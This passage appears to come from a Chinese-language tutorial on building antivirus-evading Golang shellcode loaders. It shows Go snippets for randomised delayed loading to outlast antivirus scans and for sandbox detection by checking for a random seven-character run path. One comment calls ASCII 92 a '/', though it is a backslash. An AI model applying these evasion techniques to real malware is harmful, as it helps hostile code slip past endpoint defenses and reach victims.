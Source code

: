 一个使用 golang 写的基础免杀模板已经完成，此时还可以加入延迟加载，沙箱对抗等操作

**延迟加载**

新启动一个 exe 杀软会在短时间内扫描，以识别是否为恶意软件，如果此时我们的程序不进行操作，而是等待一段时间后在调用 Shellcode。这样就可以规避杀软扫描，在被扫描完成后再加载、调用 Shellcode。代码如下

```bash
func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}
```

通过生成随机数来实现抖动的延迟加载。

**沙箱对抗**

用过某沙箱的都知道，它的运行程序会在 c:\\随机 7 个字符组成\\xxx.exe 下运行。

知道了这个特点，可以判断当前程序运行在什么地方，来判断是否继续运行。代码如下

```bash
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
}
```

运行结果

```bash
PS C:\jw6z6jr> .\demo2.exe
当前运行路径：C:\jw6z6jr\demo2.exe
```

写一个 if 来判断

```bash
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
}
```

其中 92 是 / 99 是 C 67 是 c

有一些沙箱会修改文件名后运行，根据此输出，我们可以扩展以下，继续判断名字是否被修改，如果修改了，则退出运行。

至此，实现了内嵌式的 Shellcode 存储方式，我们还可以将 Shellcode 存储在远程服务器或者存在本地，将 Shellcode 分离出来。

## Golang - 分离免杀 - 本地分离
